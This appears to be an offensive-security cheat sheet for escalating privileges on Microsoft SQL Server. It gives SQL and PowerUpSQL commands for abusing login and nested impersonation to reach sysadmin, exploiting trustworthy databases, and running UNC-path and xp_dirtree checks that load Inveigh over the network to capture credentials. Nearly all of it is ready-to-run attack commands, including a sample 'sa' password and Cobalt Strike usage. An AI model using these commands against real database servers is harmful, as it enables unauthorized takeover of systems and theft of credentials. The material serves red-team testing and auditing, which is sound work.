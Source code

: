 # MSSQL - Audit Checks

## Summary

* [Impersonation Opportunities](#impersonation-opportunities)
    * [Exploiting Impersonation](#exploiting-impersonation)
    * [Exploiting Nested Impersonation](#exploiting-nested-impersonation)
* [Trustworthy Databases](#trustworthy-databases)

## Impersonation Opportunities

* Impersonate as: `EXECUTE AS LOGIN = 'sa'`
* Impersonate `dbo` with DB_OWNER

 ```sql
 SQL> select is_member('db_owner');
 SQL> execute as user = 'dbo'
 SQL> SELECT is_srvrolemember('sysadmin')
 ```

```ps1
Invoke-SQLAuditPrivImpersonateLogin -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose

# impersonate sa account
powerpick Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "EXECUTE AS LOGIN = 'sa'; SELECT IS_SRVROLEMEMBER(''sysadmin'')" -Verbose -Debug
```

### Exploiting Impersonation

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'adminuser'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
```

### Exploiting Nested Impersonation

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'stduser'
SELECT SYSTEM_USER
EXECUTE AS LOGIN = 'sa'
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
SELECT SYSTEM_USER
```

## Trustworthy Databases

```sql
Invoke-SQLAuditPrivTrustworthy -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose 

SELECT name as database_name, SUSER_NAME(owner_sid) AS database_owner, is_trustworthy_on AS TRUSTWORTHY from sys.databases
```

> The following audit checks run web requests to load Inveigh via reflection. Be mindful of the environment and ability to connect outbound.

```ps1
Invoke-SQLAuditPrivXpDirtree
Invoke-SQLUncPathInjection
Invoke-SQLAuditPrivXpFileexist
```
